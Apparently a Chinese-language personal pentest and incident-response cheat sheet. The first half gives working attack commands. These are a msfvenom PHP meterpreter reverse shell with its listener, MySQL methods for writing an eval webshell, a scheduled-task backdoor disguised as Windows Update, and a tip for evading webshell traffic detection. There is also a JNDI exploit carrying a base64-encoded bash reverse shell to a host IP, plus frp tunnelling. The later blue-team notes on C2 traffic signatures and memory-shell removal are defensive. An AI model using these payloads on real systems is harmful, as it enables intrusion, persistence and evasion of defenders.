msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.2.138 lport=4444 R >s.php
									        IP地址			端口		
把s.php的内容复制，在之前webshell的写入位置写入

msfconsole直接进入msf工具 
使用监听模块
use exploit/multi/handler 
set payload php/meterpreter/reverse_tcp meterpreter是一个强大的渗透测试工具集

设置lhost和lport 之后输入exploit进入监听


```

PHPINFO 中的root为名的参数，就是网站的根目录


## mysql怎么写数据（shell）

```mysql
1、通过into outfile 写shell
查看安全配置
show global variables like '%secure%'       
secure_file_priv 不是none就可以写文件

用sql语句写select '<?php @eval($_POST[x]);?>' into outfile '网站目录'

2、通过日志写人shell
如果不能写，可以考虑写入日志
查看日志文件配置
show global variables like '%general%' 
打开文件日志功能
set global general log='on' 
设置日志文件位置
set global general log_file='网站目录' ----此处的文件可以是php形式
最后写入  select '<?php @eval($_POST[x]);?>' -----当整个
```


## 计划任务实现后门加载

```powershell
schtasks /create /tn "update" /tr "C:\Program Files (x86)\Windows Update\WindowsUpdate.exe" /sc onstart /ru SYSTEM /rl HIGHEST
```

## 更改冰蝎流量特征

```
将默认连接密码一定要改成其他的（要用md5加密，然后放入前16位）
```

## JAVA中间件漏洞


java中间件攻击Jolokia漏洞

spring boot scan

```
语句：-v http://****  
```

jndi工具

```
-i http://*****:***   这里是本机地址，不是靶场地址

```



正常情况下利用spring boot explot

```

```

fastjosn

将java bean转化成josn格式，也可以吧josn反序列化为java bean


**生成基于RMI、LDAP协议的反弹shel的反序列化payload，并在本地开启http监听**

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo, YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2NC4yNDUvNDQ0NCAwPiYx= }|{base64,-d}|{bash,-i}" -A "192.168.164.1"

## 关于python传输文件

```
python -m http.server 1234   
wget http://ip+端口
```

## fscan扫描工具

```
./fsacn -h ip -np(不ping网段主机)
```

## 内网穿透frp

```bash
frpc.ini #客户端
[common]
server_addr = 192.168.2.138
server_port = 7777      

[socks_proxy]
type = tcp
local_port = 1090      
remote_port =1090      
plugin = socks5

Kali  frps 写入 frps.ini 配置文件  #服务端
[common]
bind_ip = 192.168.2.138
bind_port = 7777


 ./frps -c frps.ini
 ./frpc -c frpc.ini
```

## 判断当前环境是不是docker容器

```
用hostname查看主机名，结果像一个随机生成值，怀疑是docker容器

ls  -al /    查看是否有docker文件

```

## 关于kali的python虚拟环境

```
这里代替使用了uv venv venv
```


## 蓝队应急响应


### 1、c2流量分析

exe等可执行程序经过编译难以看出命令，websell可能发现执行命令,exe特征是包很大

msf

```
流量特征： 
This program  can't be run in dos mode
c.actDS
固定时间发送，60字节的弱特征
```

cs

```
http
固定端口50050
有着固定时间、固定长度、维持连接的心跳包，并且没有回应，useragent没有固定值
post请求，cookie是aes等等的加密内容

https://(mtls)
ja3 4.8一下算是一个强特征，但是有的网站也有ja3这个字段
https 端口不是443，回复包很小
```

sliver

```
http：
c2-profiles字典中也还是有相对固定的值，比如ua头，默认配置下，userAgent的值是空的，sliver希望我们自定义但是一般使用者不会自定义，所以在生成implant的过程中，sliver会根据生成implant的类型来设置ua

流量包中存在大量204响应码的流量，这在整体来看应该属于强特征来，正常的Clint- Server模式的请求中一般不会存在大量204返回

mtls：基本无强特征看，ja3分析

```

vshell


蚁剑

```
老版本usersAgenat是antsword，或者每次都是随机值，但是一个正常人不会每次都用不同的浏览器访问网页，也是强特征
当然可以更改
包体是base64编码，解码后会看到命令，开头是@ini_set等
看到eval就要警惕了
注意：要考虑到&符号，参数值和参数用&隔开了
```

哥斯拉（内存码，好几年没有更新）

```
如果连接成功3个包，失败2个包并且发送包大，回复包小。
出现base64_decode基本确认哥斯拉.
cookie结尾值是分号；

后门shell特征
&pass=''
$key=''
```

冰蝎4.0（没有强特征）

```
访问是一个页面，但是referer是同一个，即跳转页面和源页面是一个页面
有&pass='' 但是没有key，同时密码是真正密码前16位
```


### 安全加固与基线排查

```
rookit  用于后门进程隐藏
用D-eyes绿盟、golin可解决一部分安全加固问题，其中golin对数据库排查较多（whoamifuck也行）

netstat -ano 查看所有活动连接和端口
tasklist | findstr "pid数字"  

查看最近的历史纪录：
win+r 输入recent

```


### 卷影副本

```
卷影副本是什么：
也被形象地称为“快照”，是Windows系统中一项非常实用的数据保护技术。它能在指定的时间点为磁盘上的所有文件拍一张“照片”，记录下那一刻的完整状态。这样，当你不小心误删了文件，或者对文档的修改不满意想回到过去某个版本时，就可以利用这张“照片”轻松恢复

卷影副本原理
卷影副本背后有一位“大管家”，叫卷影复制服务（VSS）。它的工作流程非常巧妙，不是简单地复制所有文件，而是采用了一种写入时复制（Copy-on-Write）的机制。当系统要修改某个文件时，VSS会先把文件的原始状态复制并保存到另一个专门的存储区域。这样一来，创建的快照既快又省空间，因为它只记录了文件的变化过程，而不是每个版本的完整拷贝
```

### 卷影副本的使用方法

```
创建c盘的卷影副本
wmic shadowcopy call create  Volume='c:\'  

查找卷影副本路径
vssadmin list shadows

利用工具（取证）分析卷影副本 AppCompatCacheParser 把卷影文件复制之后利用工具就可以查看了
```


### 挖矿病毒

```
挖矿病毒不仅要去进程找自启动脚本，还要在服务中找恶意服务，然后结束

在linux中排查挖矿病毒：
top找进程占用最高的进程，找到进程编号，然后找是什么脚本启动的

docker的挖矿病毒：
使用docker history命令查看指定镜像的历史加上–no-trunc，就可以看到全部信息。
docker history pmietlicki/xmrig | grep xmrig，搜索进程名发现镜像中执行了进程文件命令，确定进程在docker中。
				进程             

查看镜像的配置信息
docker inspect --format='{{json .Config}}' pmietlicki/xmrig

获取镜像的存储路径（与前面搜索的文件对比）
docker inspect --format='{{.GraphDriver.Data.LowerDir}}' pmietlicki/xmrig
路径有很多个，需要一个一个试

删除挖矿文件
root@vul:/home/freeit/Desktop# kill 5217
再次top查看进程，问题解决

或者进入docker内部删除

```

## 六、内存码

```
传统内存码的分类：
（jsp网页）
servlet型
filter型内存码
listener型内存码

框架型内存码：
springController型内存码
springInterceptor型内存码
springWebflux型内存码

中间件型内存码
Tomcat Valve型内存码
Tomcat upgrade型内存码
Tomcat executor型内存码
Tomcat poller型内存码
grizzly filter型内存码

agent型内存码：主要在冰蝎哥斯拉上可以做

javaweb三大件：servlet filter listener

生成工具： memshellparty
查杀工具：memshell-scanner（tomcat，放到根目录），arthas(阿里巴巴产品)，analyzer
```

analyzer

```
项目地址：https://github.com/4ra1n/shell-analyzer
实时监控目标JVM，一键反编译分析代码，一键查杀内存马
服务端上传agent.jar和remote.jar
客户端执行java -jar gui.jar即可

```

如果无法使用交互式命令创建用户，可以考虑使用脚本（问ai怎么创建用户）

## **Arthas**

```
# 查找所有实现了 javax.servlet.Filter 的类
sc *.Filter

# 或者查找所有Servlet
sc *.Servlet
```


## jumpserver

```
跳板机（堡垒机）jumpserver，
3a要求：
认证，授权，审计，
```

